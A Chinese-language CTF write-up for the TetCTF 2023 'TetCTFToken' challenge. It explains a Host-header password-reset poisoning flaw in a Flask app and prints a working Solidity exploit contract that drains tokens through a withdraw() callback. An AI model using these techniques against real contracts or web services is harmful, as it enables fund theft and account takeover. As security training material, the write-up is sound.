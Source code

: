 ```yaml
---
title: Blockchain - TetCTFToken
description: 2023 | TetCTF | WEB
tags:
    - web
    - smart contract
---
```


## 题目

- So, this year, we have something cool for you. We hope you will enjoy it. Happy New Year. ~Cheers,
- Server: http://172.105.114.30:31337

[:material-download: `tetctftoken.zip`](static/tetctftoken.zip)

## 解题思路

- 不太常见的 Web2 + Web3 组合题，不过幸好两个部分可以独立解题 (=ω=)
- Strellic 完成了 Web2 的部分，关键点在 `app.py` 中函数 `userType` 使用了 [`url_for('gen_token', Type=_secret_token, _external=True)`](https://flask.palletsprojects.com/en/2.2.x/api/#flask.Flask.url_for) 来获取 `_secret_reset_passwd_URL`，并向其发送包含新密码的请求
    - 因为 `external=True`，所以会结合设置的 `SERVER_NAME` 来生成完整的 URL
    - 而服务器并没有设置 `SERVER_NAME`，因此会从请求头中获取 `Host` 字段作为 `SERVER_NAME`[^bind_to_environ]
    - 将 `Host` 设置为可控地址，再发送重置密码的请求，就可以监听到服务器请求 `/secret-token/<Type>`，其中，`Type` 对应新的账户密码
- `TetCTFToken/templates/dashboard.html` 中给出了合约 [TetCTFToken](https://testnet.bscscan.com/address/0x1f179302c95bb40be5ec969fb670b0430cf73b01) 和 [FlagStore](https://testnet.bscscan.com/address/0x5222a03a645a1f71d946a6399881d60dbb5f569e) 的地址，并在 BscScan 上提供了合约的源码

    ```js
    //SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;

    // 为了方便阅读，将父合约转换成 import 的形式
    import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
    import "@openzeppelin/contracts/access/Ownable.sol";
    import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

    contract TetCTFToken is ERC20("TetCTF Token", "TetCTF"), Ownable, ReentrancyGuard {
        function mint(address _to, uint _amount) external onlyOwner {
            _mint(_to, _amount);
        }

        function burn(address _from, uint _amount) external onlyOwner {
            _burn(_from, _amount);
        }
    }

    contract FlagStore is Ownable, ReentrancyGuard {
        TetCTFToken public immutable token;

        uint public flagPrice  = 1337 * 1e18;
        mapping (string => bool) public flagClaimed;

        constructor() {
            token = new TetCTFToken();
        }

        function setFlagPrice(uint price) external onlyOwner {
            flagPrice = price;
        }

        function deposit() external payable nonReentrant {
            token.mint(msg.sender, msg.value);
        }

        function withdraw() external nonReentrant {
            require(token.balanceOf(msg.sender) > 0, "Insufficient balance");

            (bool success, ) = msg.sender.call{value: token.balanceOf(msg.sender)}("");
            require(success, "Failed to send Ether");

            token.burn(msg.sender, token.balanceOf(msg.sender));
        }

        function buyFlag(string memory user) external returns (bool) {
            require(address(msg.sender).code.length == 0, "Smart contract is not allowed");
            require(token.balanceOf(msg.sender) >= flagPrice, "Insufficient balance");

            token.burn(msg.sender, flagPrice);
            flagClaimed[user] = true;

            return true;
        }
    }
    ```

- `FlagStore` 是主要交互合约，可以通过函数 `deposit` 用 BNB 换取等量的 `TetCTFToken`，随后可通过 `withdraw` 将账户中所有的 `TetCTFToken` 换回等量的 BNB
- 函数 `deposit` 和 `withdraw` 均使用了 `nonReentrant` 修饰符，以防止重入攻击，即便如此，由于不符合 Checks-Effects-Interactions 模式，`msg.sender.call{value: token.balanceOf(msg.sender)}("")` 也是值得重点关注的对象。不能重复调用 `deposit` 和 `withdraw`，那么在合约的回调函数中还能做什么呢？
- 注意到 `msg.sender.call` 和 `token.burn` 都使用了 `token.balanceOf` 来获取调用者持有 `TetCTFToken` 的数量，因此即使在 `msg.sender.call` 触发的回调函数中转移 `TetCTFToken`，`token.burn` 也不会抛出异常

    ```js
    contract Hack is Ownable {
        FlagStore store;
        TetCTFToken token;
        constructor(address instance) payable {
            store = FlagStore(instance);
            token = TetCTFToken(store.token());
        }

        // 调用一次汽油费约 0.12 BNB，尽可能提高单次交易金额以节约资金
        function exploit() public {
            for(uint i = 0; i < 191; i ++) {
                store.deposit{value: 1 ether}();
                store.withdraw();
            }
        }

        function destruct() public onlyOwner {
            selfdestruct(payable(msg.sender));  // 回收 BNB (╥ω╥)
        }

        receive() payable external {
            token.transfer(tx.origin, 1e18);
        }
    }
    ```

- 获取足够的 `TetCTFToken` 后，调用 `buyFlag` 并传入在网站注册的用户名，最后 [Buy Flag](http://172.105.114.30:31337/showBuyFlag) 就可以啦 :D

[^bind_to_environ]: [URL Routing — Werkzeug Documentation](https://werkzeug.palletsprojects.com/en/2.2.x/routing/#werkzeug.routing.Map.bind_to_environ)